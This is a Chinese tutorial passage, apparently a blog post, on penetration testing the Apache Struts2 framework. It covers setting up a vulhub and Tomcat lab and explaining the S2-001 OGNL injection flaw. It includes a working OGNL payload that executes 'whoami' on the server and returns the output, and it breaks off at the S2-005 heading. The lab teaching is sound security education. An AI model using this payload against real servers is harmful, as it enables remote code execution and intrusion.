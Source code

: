 # 原创
：  渗透测试--Struts2框架

# 渗透测试--Struts2框架

### 前言

Struts2是apache项目下的一个web 框架，普遍应用于阿里巴巴、京东等互联网、政府、企业门户网站。在我国strust2被广泛使用与各种战略性资产，Struts 2是Struts的下一代产品，但和一代相比架构有很大的区别，近年也是爆出了很多的高危漏洞，本文旨在帮助大家理解在渗透测试中strust2的测试手法以及基本原理

### Struts2简介

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。其全新的Struts 2的体系结构与Struts 1的体系结构差别巨大。Struts 2以WebWork为核心，采用拦截器的机制来处理用户的请求，这样的设计也使得业务逻辑控制器能够与ServletAPI完全脱离开，所以Struts 2可以理解为WebWork的更新产品。虽然从Struts 1到Struts 2有着非常大的变化，但是相对于WebWork，Struts 2的变化很小。<br/> 因为strust2基于MVC设计模式的Web应用框架，会对某些标签属性（比如 id）的属性值进行二次表达式解析，因此在某些场景下将可能导致远程代码执行。

### 环境搭建

Struts2至今已经迭代了很多版本，可在vulhub自行下载<br/> `https://github.com/vulhub/vulhub/tree/master/struts2`

#### 启动tomcat

`服务器（Windows）IP:192.168.126.1`<br/> `vulhub服务器（ubuntu）IP：192.168.126.128`<br/> `攻击机（kali）IP：192.168.126.130`<br/> 若未下载可在官网下载https://archive.apache.org/dist/tomcat/<br/> 启动Tomcat，访问本地8080端口<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/64431f6e3d8194141a8ee1e5d97f8e56.jpeg"/><br/> 此处举例S2-001搭建，将war包放入webapps，重启一下Tomcat即可自动部署<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/52f42acddcbd59af386886d2469f4b51.jpeg"/><br/> 进入Tomcat目录bin下，输入service.bat install<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ef16d8e3835e390728b40993792d05f9.jpeg"/><br/> cmd输入services.msc，打开系统服务，可以找到apache Tomcat，不要启动，不然后续会报错，还要关掉进程。<br/> 用IDEA启动一个Tomcat服务器，网上都有教程大家自行寻找。<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/5486c5463f9526937ddc55c8b7dc7b4e.jpeg"/><br/> 虚拟机访问http://192.168.126.1:8088/Tomcat-web<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/50b76a5727fbfcceeb2baffd968d459c.jpeg"/>

#### S2-001

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/1410a1971347cf287cc9ed13af4d9f8c.jpeg"/><br/> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行<br/> 这里在密码框输入`%{1+1}`，要进行URL编码为`%25%7B1%2B1%7D`，抓包。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/20d1cf6cd8aac7b95229316e46be6220.jpeg"/><br/> 1+1=2，合理。<br/> 现在直接命令执行，whoami

```
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}

```

URL编码，发包<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fec888dfb560c81cea1c0b58d454be14.jpeg"/>

#### S2-005

